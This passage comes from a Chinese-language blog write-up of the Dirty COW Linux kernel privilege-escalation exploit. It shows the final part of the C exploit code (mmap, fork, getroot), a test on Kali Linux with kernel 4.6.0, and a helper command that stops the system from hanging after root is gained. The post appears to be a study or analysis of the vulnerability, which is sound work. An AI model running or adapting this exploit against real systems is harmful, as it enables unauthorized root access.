 		err(1, "fstat");

	mem_arg.map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, fd, 0);
	if (mem_arg.map == MAP_FAILED)
		err(1, "mmap");
	close(fd);

	printf("[*] mmap %p\n", mem_arg.map);

	mem_arg.st = st;
	mem_arg.offset = (off_t)((unsigned long)mem_arg.map + getuid_addr - start);

	exploit(&mem_arg, true);

	pid = fork();
	if (pid == -1)
		err(1, "fork");

	if (pid == 0) {
		getroot();
	} else {
		sleep(2);
		exploit(&mem_arg, false);
		if (waitpid(pid, NULL, 0) == -1)
			warn("waitpid");
	}

	return 0;
}
{% endhighlight %}

### Exp Test

测试环境：

Kali Linux 2016.2 version  
Linux 4.6.0 内核

编译报了几个 Warning:

![dirtycow-exp-0]({{ site.url }}/images/dirtycow/dirtycow-exp-0.jpg)

目录下还有一个 remain.sh，内容为：

```
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```

目的是防止提权后死机。需要在提权成功后立即运行。

结果：

![dirtycow-exp-1]({{ site.url }}/images/dirtycow/dirtycow-exp-1.jpg)

### 漏洞成因

很大程度上是理解*参考链接*中第三、四篇文章。
